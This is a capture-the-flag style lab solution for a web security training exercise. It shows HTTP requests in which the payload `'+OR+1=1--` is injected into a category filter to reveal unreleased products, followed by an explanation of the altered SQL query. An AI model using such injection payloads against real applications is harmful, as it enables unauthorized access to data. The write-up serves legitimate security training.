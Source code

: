 The following is a solution to the lab titled "Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data".

Access the lab. From the Home page, navigate to one of the shop categories. (For this solution, the category is Accessories.)

In Burp Suite, send the request for the Accessories page to Repeater. The following is the unmodified HTTP request.

~~~
GET /filter?category=Accessories HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

Modify the HTTP request, adding `'+OR+1=1--` after `category=Accessories`. The following is the modified HTTP request.

~~~
GET /filter?category=Accessories'+OR+1=1-- HTTP/2
Host: 0a3500a3042b2b11843a3897008800fd.web-security-academy.net
Cookie: session=egxqjkOekRr7s2wQXkObFabdTrnv1fCi
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a3500a3042b2b11843a3897008800fd.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~

As a result of this modification, all product information was returned, thus solving the lab.

---

*SQL Note*

The unmodified request (`GET /filter?category=Accessories`) results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' AND released = 1
~~~

This returns products from the category Accessories that have been released (`released = 1`).

Adding the payload `'+OR+1=1--` to `/filter?category=Accessories` results in the following SQL query:

~~~
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1
~~~

This query grabs products in the category Accessories or where 1=1. One is always equal to one, so this query grabs all products. The addition of -- turns the rest of the line into a comment, so ` AND released = 1` is ignored.
